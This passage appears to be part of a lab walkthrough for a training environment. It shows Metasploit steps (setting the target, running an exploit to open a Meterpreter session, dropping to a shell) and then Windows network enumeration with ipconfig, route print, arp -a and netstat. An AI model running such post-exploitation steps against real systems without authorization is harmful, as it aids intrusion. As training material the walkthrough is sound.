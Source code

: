 Set the target address:

```bash
set rhosts demo.ine.local
```

Run the exploit to gain a **Meterpreter session**:

```bash
run
```

#### Step 2: Open a Shell Session

Switch to a **native shell** to begin enumerating network information:

```bash
shell
```

#### Step 3: Enumerating Network Configuration

To gather network information such as the **IP address** and **adapter details**, use the following commands:

- Display **IP configuration**:

    ```bash
    ipconfig
    ```

- Display detailed **IP configuration and adapter info**:

    ```bash
    ipconfig /all
    ```

#### Step 4: Displaying the Routing Table

To view the system's **routing table**:

```bash
route print
```

#### Step 5: Viewing the ARP Table

The **ARP table** lists all devices on the network that the system has communicated with:

```bash
arp -a
```

#### Step 6: Listing Open Ports and Services

Use **netstat** to list open ports, active connections, and services running on the system:

```bash
netstat -ano
```
